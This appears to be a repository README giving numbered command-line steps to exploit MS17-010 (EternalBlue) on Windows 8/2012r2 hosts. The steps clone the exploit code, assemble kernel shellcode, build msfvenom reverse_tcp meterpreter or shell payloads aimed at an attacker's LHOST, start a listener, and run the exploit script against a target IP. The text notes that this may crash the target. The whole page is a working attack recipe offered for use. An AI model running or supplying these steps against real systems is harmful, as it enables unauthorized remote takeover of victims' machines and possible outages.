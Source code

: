 ## Instructions to perform exploit

**Step 1:** `git clone https://github.com/w0rtw0rt/MS17-010.git && cd MS17-010/`

**Step 1a:** gedit/vi/nano eternalblue_exploit8.py and change lines 52 and 53 to match the account authentication

example:

`USERNAME='Guest'`

`PASSWORD=''`

**Step 2:** cd shellcode and type `nasm -f bin eternalblue_kshellcode_x64(x86).asm`

**Step 3:** `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 3a:** `msfvenom -p windows/x64/shell/reverse_tcp -f raw -o shell_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 4:** `cat eternalblue_kshellcode_x64(x86) shell_(IP)_msf.bin (OR meterpreter_(IP)_msf.bin) > (payloadname).bin`

**Step 5:** Set up exploit/multi/handler in a new terminal window with matching payload you created above and run it

**Step 6:** `cd MS17-010`

**Step 7:** `python eternalblue_exploit8.py (target IP) (payloadname).bin (GROOM COUNT)`

**-side note-** Groom count will typically function with a "200" for windows 8/2012r2 but *might* crash the system - use at your own risk

**Step 8:** shell/meterpreter should be returned if "Guest" account is active or entered credentials worked.
